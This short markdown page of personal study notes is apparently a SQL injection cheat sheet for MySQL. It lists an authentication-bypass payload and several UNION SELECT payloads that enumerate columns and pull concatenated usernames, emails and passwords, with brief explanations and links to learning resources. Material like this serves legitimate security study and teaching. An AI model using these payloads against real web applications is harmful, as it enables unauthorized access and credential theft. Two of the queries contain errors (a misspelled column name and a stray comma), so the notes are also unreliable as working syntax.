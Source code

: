 # SQL Injection


## Basic injection
`1' or 1 = 1 #`

- `1'`: can be anything with ending quote
- `or` : so we could write success query.
- `1 = 1`: so its always true
  - String would be quoted, 1 is integer so we dont quote
- `#`: comment anything after this may be there in code





### GOTCHA

-  `order by`: in order to understand field count.
-   `limit 1`: useful to bypass `count === 1`


### Exploit TIPS

    - Extracting Coloumns -> 1' union <SELECT QUERY> #
      - 1' UNION SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE tables_name = 'users' #
    - Extracting Data -> 1' union <SELECT QUERY> #\
      - 1' union select 1, username, 3 from db.tables #
      - 1' union select 1, concat(field1, 0x3a, field2, 0x3a, field3), from db.tables #
        - filed1,2,3 could be likes of username, email, pass
        - 0x3a is hexcode for `:`

### TIPS

    - SQL query vs Web APP Query: this can mean if its vulnerable to sql injection or not.
    - concept is same for any database engine but example works for mysql.

### GOOD READS

- [Portswinger Academy](https://portswigger.net/web-security/sql-injection)
- [pentest moneky Cheatsheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)